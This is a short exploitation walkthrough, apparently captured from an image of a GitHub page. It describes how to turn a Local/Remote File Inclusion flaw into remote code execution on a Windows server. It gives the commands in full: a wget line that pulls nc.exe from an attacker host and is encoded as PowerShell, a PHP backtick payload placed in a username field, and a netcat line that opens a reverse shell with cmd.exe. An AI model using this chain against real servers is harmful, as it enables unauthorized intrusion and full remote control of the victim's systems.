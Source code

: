 ### REQUIREMENTS: Confirm that the server is vulnerable to Remote File Inclusion/Local File Inclusion

### STEPS:

#### 1) Create a new user in the app inserting our encoded payload as the username value:

#### echo "wget http://ATTACK_IP/nc.exe -o C:\\Windows\\TEMP\\nc.exe" | iconv -t UTF-16LE | base64

#### 2) The final username value payload becomes: <?=`powershell /enc ENCODED_PAYLOAD`?>

#### 3) Abuse the LFI/RFI vulnerability to make the command execute on the server.

#### 4) Create another user with: echo "C:\Windows\TEMP\nc.exe -e cmd.exe IP_ADDRESS PORT" | iconv -t UTF-16LE | base64"

#### 5) Repeat steps to get your reverse shell.

### Similar approach can be used on a linux machine as well
